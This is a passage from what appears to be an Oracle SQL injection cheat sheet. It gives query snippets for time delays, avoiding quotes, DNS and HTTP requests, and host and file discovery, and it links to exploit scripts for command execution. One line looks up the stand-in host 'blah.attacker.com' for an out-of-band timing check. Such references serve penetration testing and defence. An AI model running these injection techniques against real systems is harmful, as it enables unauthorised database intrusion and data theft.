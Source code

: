 | If Statement                 | BEGIN IF 1=1 THEN dbms\_lock.sleep(3); ELSE dbms\_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements                                                                                                                                                                                                                                                                                                                                                                                  |
| Case Statement               | <p>SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1<br> SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2</p>                                                                                                                                                                                                                                                                                                                                                                    |
| Avoiding Quotes              | SELECT chr(65) \|\| chr(66) FROM dual; — returns AB                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Time Delay                   | <p>BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELECT<br> SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — if reverse looks are slow<br> SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual; — if forward lookups are slow<br> SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual; — if outbound TCP is filtered / slow<br>– Also see <a href="http://technet.microsoft.com/en-us/library/cc512676.aspx">Heavy Queries</a> to create a time delay</p> |
| Make DNS Requests            | <p>SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;<br> SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;</p>                                                                                                                                                                                                                                                                                                                                                                            |
| Command Execution            | [Java](http://www.0xdeadbeef.info/exploits/raptor\_oraexec.sql)can be used to execute commands if it’s installed.[ExtProc](http://www.0xdeadbeef.info/exploits/raptor\_oraextproc.sql) can sometimes be used too, though it normally failed for me. ![:-(](http://pentestmonkey.net/wp-includes/images/smilies/icon\_sad.gif)                                                                                                                                                                             |
| Local File Access            | <p><a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">UTL_FILE</a> can sometimes be used.  Check that the following is non-null:<br> SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;<a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">Java</a> can be used to read and write files if it’s installed (it is not available in Oracle Express).</p>                                                                                                                |
| Hostname, IP Address         | <p>SELECT UTL_INADDR.get_host_name FROM dual;<br> SELECT host_name FROM v$instance;<br> SELECT UTL_INADDR.get_host_address FROM dual; — gets IP address<br> SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — gets hostnames</p>                                                                                                                                                                                                                                                                   |
| Location of DB files         | SELECT name FROM V$DATAFILE;                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| Default/System Databases     | <p>SYSTEM<br> SYSAUX</p>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |

**\* Requires privileged user**



| Description             | Query                                                                                                                                                                                                                                                          |
| ----------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |